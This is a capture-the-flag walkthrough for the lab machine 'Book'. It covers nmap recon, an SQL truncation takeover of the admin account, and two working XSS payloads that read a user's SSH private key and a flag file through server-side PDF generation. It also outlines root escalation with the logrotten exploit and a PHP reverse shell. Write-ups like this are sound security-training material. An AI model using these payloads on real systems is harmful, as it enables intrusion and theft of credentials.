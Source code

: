 # Book walkthrough

Machine ip: 10.10.10.176

Nmap output:

```
# Nmap 7.80 scan initiated Sun May  3 08:48:45 2020 as: nmap -sS -sV -sC -v -o nmap.txt 10.10.10.176
Increasing send delay for 10.10.10.176 from 0 to 5 due to 179 out of 596 dropped probes since last increase.
Nmap scan report for 10.10.10.176
Host is up (0.044s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 f7:fc:57:99:f6:82:e0:03:d6:03:bc:09:43:01:55:b7 (RSA)
|   256 a3:e5:d1:74:c4:8a:e8:c8:52:c7:17:83:4a:54:31:bd (ECDSA)
|_  256 e3:62:68:72:e2:c0:ae:46:67:3d:cb:46:bf:69:b9:6a (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: LIBRARY - Read | Learn | Have Fun
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun May  3 08:49:12 2020 -- 1 IP address (1 host up) scanned in 26.56 seconds
```

The only port useful is port 80 so let's start from there. The page is a login form in which you can create an user or login.
After a little bit of enumeration I an find the /admin path where you can only get a login form without registration.

If we make the login ad a normal user we have access to a site where we can read or upload books. Even if it is strange there aren't xss vulnerabilities.
We have to take advantage of a sql truncation vulnerability in the registration form. If we don't put any value the form says the limit number of characters
allowed. Trying to register a new account with the admin email putting more than the acceptable characters we can override the old account.

Now we can login as admin and here we can use an exploit related to xss during the generation of PDF: https://www.noob.ninja/2017/11/local-file-read-via-xss-in-dynamically.html

Payload used:

```
PAYLOAD:
<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText.fontsize(0.5))};x.open("GET","file:///home/reader/.ssh/id_rsa");x.send();</script>
<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText.fontsize(0.5))};x.open("GET","file:///home/reader/ user.txt");x.send();</script>
```

Now i can get a shell though ssh and grab the user flag.

## Root

Running linenum and pspy we can sport a strange service: logrotate. Online we can find an common exoloit for that service.
We need to download logrotten, compile it and then upload to the machine the file created. I need to edit the file to improve the payload part
in which I've put a reb shell made in php from pentestmonkey.

In order to trigger this service i have to add some content in the backup folder. If the shell is unstable you can just make the script execute the command to grab the flag.

This exploit is available  because the configuration file allows the creation of logs.


https://github.com/whotwagner/logrotten
